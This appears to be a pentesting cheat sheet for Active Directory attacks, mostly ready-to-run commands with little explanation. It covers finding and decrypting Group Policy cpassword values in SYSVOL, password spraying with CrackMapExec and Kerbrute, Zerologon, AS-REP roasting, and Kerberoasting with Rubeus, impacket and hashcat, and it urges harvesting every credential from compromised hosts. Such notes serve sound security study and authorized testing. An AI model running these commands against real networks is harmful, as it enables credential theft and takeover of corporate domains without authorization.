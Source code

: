 - SMB share - If SYSVOL share or any share which `domain` name as folder name

```bash
# Download the whole share
https://github.com/ahmetgurel/Pentest-Hints/blob/master/AD%20Hunting%20Passwords%20In%20SYSVOL.md
# Navigate to the downloaded folder
grep -inr "cpassword"
```
- CME

```bash
crackmapexec smb <TARGET[s]> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password
crackmapexec smb <TARGET[s]> -u <USERNAME> -H LMHash:NTLMHash -d <DOMAIN> -M gpp_password
```

- Decrypting the CPassword

```bash
gpp-decrypt "cpassword"
```

# Active Directory Attacks

<aside>
💡 Make sure you obtain all the relevant credentials from compromised systems, we cannot survive if we don’t have proper creds.
</aside>

## Zerologon

- [Exploit](https://github.com/VoidSec/CVE-2020-1472)
- We can dump hashes on target even without any credentials.

## Password Spraying

```bash
# Crackmapexec - check if the output shows 'Pwned!'
# use continue-on-success option if it's a subnet
crackmapexec smb <IP or subnet> -u users.txt -p 'password' -d <domain> --continue-on-success 

# Kerbrute
kerbrute passwordspray -d corp.com .\usernames.txt "pass"
```

## AS-REP Roasting

See https://github.com/Br14n41/asrep-roaster 

## Kerberoasting

```bash
# dumping from compromised windows host, and saving with customname
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast 

# from kali machine
impacket-GetUserSPNs -dc-ip <DC-IP> <domain>/<user>:<pass> -request 

# cracking hashes
hashcat -m 13100 hashes.txt wordlist.txt --force 
```
